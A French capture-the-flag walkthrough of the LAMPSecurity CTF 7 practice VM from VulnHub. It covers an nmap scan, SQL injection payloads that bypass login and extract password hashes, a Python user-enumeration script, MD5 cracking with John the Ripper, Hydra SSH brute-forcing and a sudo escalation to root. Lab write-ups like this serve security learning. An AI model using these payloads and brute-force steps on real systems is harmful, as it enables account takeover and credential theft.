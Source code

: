 ```yaml
---
title: "Solution du LAMPSecurity CTF #7 de VulnHub"
tags: [CTF,VulnHub]
---
```


Introduction
------------

Voici la solution [du CTF LAMPSecurity numéro 7](http://vulnhub.com/entry/lampsecurity-ctf7,86/). La VM est une image d'un système *CentOS* 6.3.  

Frankie Goes to Pwnywood
------------------------

```
Starting Nmap 6.46 ( http://nmap.org ) at 2014-07-16 08:25 CEST
Nmap scan report for 192.168.1.60
Host is up (0.00018s latency).
Not shown: 65526 filtered ports
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 41:8a:0d:5d:59:60:45:c4:c4:15:f3:8a:8d:c0:99:19 (DSA)
|_  2048 66:fb:a3:b4:74:72:66:f4:92:73:8f:bf:61:ec:8b:35 (RSA)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Mad Irish Hacking Academy
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.X (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
| http-auth: 
| HTTP/1.0 401 Authorization Required
|_  Basic realm=SWAT
|_http-title: 401 Authorization Required
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 302)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
| ndmp-version: 
|_  ERROR: Failed to get host information from server
MAC Address: 00:0C:29:9D:12:A9 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.0 - 3.9
Network Distance: 1 hop

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.5.10-125.el6)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: localhost
|_  System time: 2014-07-01T09:08:59-04:00
| smb-security-mode: 
|   Account that was used for smb scripts: <blank>
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur le port 80 se trouve un site fait avec *Bootstrap*... ce qui fait que l'on a l'impression de connaître le site avant même de l'avoir visité :p  

En haut de la page, il y a un formulaire *"Sign in"* avec les champs username et password.  

La page retourne une erreur sql bavarde si on rentre `"'` comme nom d'utilisateur :  

```
Invalid query: You have an error in your SQL syntax;
check the manual that corresponds to your MySQL server version for the right syntax to use near ''" and password = md5("")' at line 1
Whole query: select username, user_id from users where username = ""'" and password = md5("")
```

Il semble qu'il soit alors possible de bypasser l'authentification en modifiant la requête SQL.  

Ainsi avec le nom d'utilisateur `" or 1;#` on se retrouve connecté en tant que *test@nowhere.com*.  

Il est alors possible d'accéder à des profils utilisateurs via des urls de la forme `/profile&id=113`.  

Un petit script Python suffit à extraire les utilisateurs existants en cherchant les IDs entre 0 et 500.  

```python
#!/usr/bin/python
import requests

sess = requests.session()

for i in range(0, 500):
    url = "http://192.168.1.60/profile&id=" + str(i)
    r = sess.get(url)
    if 'mailto:"' not in r.content:
        print "id =", i, r.content.split("mailto:")[1].split('"')[0]
```

Le résultat obtenu est le suivant :  

```
id = 3 brian@localhost.localdomain
id = 4 john@localhost.localdomain
id = 5 alice@localhost.localdomain
id = 6 ruby@localhost.localdomain
id = 7 leon@localhost.localdomain
id = 8 julia@localhost.localdomain
id = 9 michael@localhost.localdomain
id = 10 bruce@localhost.localdomain                                                                                                                                                                            
id = 11 neil@localhost.localdomain                                                                                                                                                                             
id = 12 charles@localhost.localdomain                                                                                                                                                                          
id = 36 foo@bar.com                                                                                                                                                                                            
id = 113 test@nowhere.com
```

Vu que l'email utilisateur s'affiche dans la page une fois connecté, il doit être aussi possible d'utiliser une UNION pour faire afficher les passwords de l'utilisateur.  

Et... oui ! si on rentre `" union select password, 0 from users where user_id=3;#` on obtient le hash du mot de passe de *Brian*.  

Comme il y a peu d'utilisateurs, on peut se permettre de faire une énumération manuelle. Après quelque temps on a les hashs suivants :  

```
brian:e22f07b17f98e0d9d364584ced0e3c18
john:0d9ff2a4396d6939f80ffe09b1280ee1
alice:2146bf95e8929874fc63d54f50f1d2e3
ruby:9f80ec37f8313728ef3e2f218c79aa23
leon:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia:ed2539fe892d2c52c42a440354e8e3d5
michael:9c42a1346e333a770904b2a2b37fa7d3
bruce:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil:4773408d5358875b3764db552a29ca61
charles:b2a97bcecbd9336b98d59d9324dae5cf
foo:4cb9c8a8048fd02294477fcb1a41191a
test:098f6bcd4621d373cade4e832627b4f6
```

Ça ne fait pas long feu avec une bonne wordlist :  

```console
$ /opt/jtr/john --wordlist=mega_dict.txt --format=raw-md5 hash.txt 
Loaded 12 password hashes with no different salts (Raw MD5 [128/128 AVX intrinsics 12x])
changeme         (foo)
chuck33          (charles)
madrid           (julia)
my2cents         (brian)
qwer1234         (leon)
somepassword     (michael)
test             (test)
turtles77        (alice)
guesses: 8  time: 0:00:00:02 DONE (Wed Jul 16 13:28:15 2014)
```

Testons ces identifiants sur le serveur SSH. Ici pas question de les faire à la mano.  

```console
$ ./hydra -L users.txt -P passwords.txt -e nsr ssh://192.168.1.60
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-16 13:30:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 88 login tries (l:8/p:11), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.60   login: brian   password: my2cents
[22][ssh] host: 192.168.1.60   login: leon   password: qwer1234
[22][ssh] host: 192.168.1.60   login: julia   password: madrid
[22][ssh] host: 192.168.1.60   login: michael   password: somepassword
[22][ssh] host: 192.168.1.60   login: charles   password: chuck33
[22][ssh] host: 192.168.1.60   login: alice   password: turtles77
[STATUS] attack finished for 192.168.1.60 (waiting for children to finish) ...
1 of 1 target successfully completed, 6 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-16 13:30:43
```

La vie de Brian
---------------

*Brian* a tous les droits et on le remercie :  

```console
[brian@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for brian: 
Matching Defaults entries for brian on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brian may run the following commands on this host:
    (ALL) ALL
[brian@localhost ~]$ sudo su
[root@localhost brian]# head -1 /etc/shadow
root:$6$C85VH0UQ$ZFydP2qmc0DTBfK5x4UL9658RDdF/cAzRtRFv6SB7ctovLeEPV6BOzimsGtCQOYbQOXbH4Ek2FN4a0Lrsymb/0:15698:0:99999:7:::
```

Au passage, on trouve d'autres mots de passe dans le fichier `.mysql_history` de root :  

```
update users set password=md5('my2cents') where user_id = 3;
update users set password=md5('transformersrule') where user_id = 4;
update users set password=md5('turtles77') where user_id = 5;
update users set password=md5('qwer1234') where user_id = 7;
update users set password=md5('madrid') where user_id = 8;
update users set password=md5('somepassword') where user_id = 9;
update users set password=md5('LosAngelesLakers') where user_id = 10;
update users set password=md5('Jets4Ever') where user_id = 11;
update users set password=md5('chuck33') where user_id = 15;
update users set password=md5('chuck33') where user_id = 12;
```

Un goût de trop peu ?

*Published July 21 2014 at 22:09*
